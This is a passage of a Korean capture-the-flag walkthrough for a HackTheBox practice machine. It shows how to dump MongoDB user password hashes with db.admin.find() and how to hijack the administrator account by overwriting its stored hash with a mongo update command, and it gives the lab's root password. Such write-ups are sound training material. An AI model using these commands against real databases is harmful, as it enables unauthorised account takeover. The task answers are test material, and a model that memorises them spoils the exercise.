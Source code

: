 * Task 10 | What is the function we use to enumerate users within the database in MongoDB?

> db.admin.find() 

데이터베이스의 암호 해시를 덤프한다. 다음과 같이 입력하면 사용자와 권한과 암호 해시를 덤프할 수 있다.

![admin](https://github.com/jasperkim425/Walkthrough/blob/main/HackTheBox/Starting%20Point/Unified/image/admin.png)

* Task 11 | What is the function we use to update users within the database in MongoDB?

>  db.admin.update()

x_shadow에 저장되어 있는 암호 해시 값을 해독하는 것은 너무나 오랜시간이 걸릴 것 같으니 우리는 해시 값을 업데이트할 것이다.

password의 해시 값을 준비한다.

![mkpasswd](https://github.com/jasperkim425/Walkthrough/blob/main/HackTheBox/Starting%20Point/Unified/image/mkpasswd.png)

이제 준비한 해시 값을 아래와 같이 업데이트한다.

```
mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$BL3vSOTCs73fGtC9$ddJsCLyISiX21OTkEOgg5CEgT1EKCGw2TgqK6OgmvttgPj4gfv4MVldIhMQRTA9R6vwbty9kQ5vFgYppkWQ1E0"}})'
```

성공적으로 업데이트가 된 것을 다시 find로 x_shadow 부분을 확인한다.

![update](https://github.com/jasperkim425/Walkthrough/blob/main/HackTheBox/Starting%20Point/Unified/image/update.png)

* Task 12 | What is the password for the root user?

> NotACrackablePassword4U2022
